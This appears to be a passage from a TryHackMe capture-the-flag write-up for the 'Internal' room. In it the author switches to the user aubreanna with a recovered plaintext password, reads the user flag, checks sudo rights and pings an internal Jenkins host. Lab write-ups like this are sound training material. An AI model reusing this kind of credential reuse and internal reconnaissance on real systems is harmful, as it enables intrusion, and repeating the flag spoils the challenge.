 ![image.png](image%2021.png)

- Hooray we got the passwd lets try to login

```bash
www-data@internal:/$ su - aubreanna
su - aubreanna
Password: bubb13guM!@#123

aubreanna@internal:~$ ls
ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
cat user.txt
THM{int3rna1_fl4g_1}
```

- Great now lets a way to get root

```bash
aubreanna@internal:~$ sudo -l
sudo -l
[sudo] password for aubreanna: bubb13guM!@#123

Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ 
```

- Unfortunately this user have no access so lets find another way
- Here was another file called jenkins lets cat that

```bash
aubreanna@internal:~$ cat jenkins.txt
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

```bash
ubreanna@internal:~$ ping -c1 172.17.0.2^[OM
ping -c1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.039 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.039/0.039/0.039/0.000 ms
```
